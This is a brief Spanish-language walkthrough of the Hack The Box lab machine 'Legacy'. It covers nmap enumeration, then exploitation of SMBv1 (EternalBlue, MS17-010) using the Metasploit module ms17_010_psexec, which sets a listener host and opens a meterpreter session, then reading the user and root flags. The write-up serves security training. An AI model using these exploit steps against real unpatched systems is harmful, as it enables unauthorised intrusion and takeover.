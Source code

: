 Maquina: Windows
Level: Easy
IP: 10.10.10.4

## Herramientas a utilizar:

- nmap
- metaexploit

### Fase 1 Enumeracion 

```
# nmap -A -o scan_legacy.txt 10.10.10.4
```
Esto no traera lo siguiente puerto
|PORT|STATE| SERVICE|VERSION|
|----|----|----|----|
|139/tcp|  open|   netbios-ssn|   Microsoft Windows netbios-ssn
|445/tcp|  open|  microsoft-ds|  Windows XP microsoft-ds
|3389/tcp| closed| ms-wbt-server|

La parte muy importante a destacar en esta maquina es que mas abajo no dice que la version de SMB que este equipo tiene es smb1 la cual es vulnerable a **eternablue.**

### Fase 2 Explotacion
Aqui utilizaremos MetaExploit
```
msfconsole
msf6> use exploit/windows/smb/ms17_010_psexec
set rhost 10.10.10.4
set lhost 10.10.14.x (la ip que nos asigna la vpn_htb).
run
```

Con esto ya tenemos **meterpreter>** desde aqui solo es enumerar.
```
cd c:\Documents and Settings\john\Desktop
```
Flag del user `type user.txt`
```
cd C:\Documents and Settings\Administrator\Desktop\
```
Flag del root `type root.txt`
